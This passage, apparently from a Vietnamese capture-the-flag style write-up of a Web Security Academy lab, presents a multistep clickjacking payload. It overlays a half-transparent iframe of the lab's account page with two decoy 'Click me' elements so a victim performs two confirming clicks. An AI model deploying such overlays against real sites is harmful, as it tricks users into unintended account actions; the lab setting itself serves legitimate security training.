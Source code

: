 Nhưng khác là giờ ta còn phải thêm bước `Confirm`

![Alt text](../image/lab5/02.png)

Như vậy ta cần phải xây dựng click 2 lần rồi

```
<style>
	iframe {
		position: relative;
		width: 800px;
		height: 600px;
		opacity: 0.5;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position: absolute;
		top: 496px;
		left: 60px;
		z-index: 1;
	}
   .secondClick {
		top: 295px;
		left: 210px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0acf002e04cc169b801c53b400420067.web-security-academy.net/my-account"></iframe>
```

`View exploit` xem thử kết quả
